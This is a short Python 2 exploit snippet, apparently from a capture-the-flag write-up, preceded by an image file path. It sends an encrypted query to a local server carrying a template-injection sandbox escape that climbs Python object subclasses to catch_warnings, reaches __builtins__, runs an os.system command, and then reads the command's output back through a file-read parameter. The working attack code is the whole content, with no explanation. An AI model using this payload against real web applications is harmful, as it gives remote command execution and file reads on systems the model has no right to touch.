 ```py
url1='http://127.0.0.1:8000/?s='+get_cipher("m=p&l=${(lambda getthem=([x for x in ().__class__.__base__.__subclasses__() if x.__name__=='catch_warnings'][0]()._module.__builtins__):getthem['__import__']('os').system('ls / > /tmp/data'))()}")
url2='http://127.0.0.1:8000/?s='+get_cipher("m=d&f=/tmp/data")


r1=requests.get(url1)
r2=requests.get(url2)
print r2.text
```
